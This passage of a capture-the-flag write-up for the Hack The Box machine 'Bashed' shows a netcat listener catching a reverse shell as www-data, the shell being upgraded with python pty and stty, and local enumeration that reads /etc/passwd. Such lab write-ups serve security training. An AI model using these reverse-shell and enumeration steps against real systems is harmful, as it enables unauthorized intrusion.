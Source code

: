 Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 50044
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/tmp$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ stty raw -echo; fg                                               148 ⨯ 1 ⚙

[1]  + continued  nc -nlvp 10099

www-data@bashed:/tmp$ export TERM=xterm
www-data@bashed:/tmp$ stty rows 60 columns 235
```

# Privilege Escalation

## Local enumeration

Enumerated local users:

```bash
www-data@bashed:/home$ ls -al /home/
total 16
drwxr-xr-x  4 root          root          4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
drwxr-xr-x  4 arrexel       arrexel       4096 Dec  4  2017 arrexel
drwxr-xr-x  3 scriptmanager scriptmanager 4096 Dec  4  2017 scriptmanager

www-data@bashed:/home$ cat /etc/passwd | grep -v 'nologin'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```
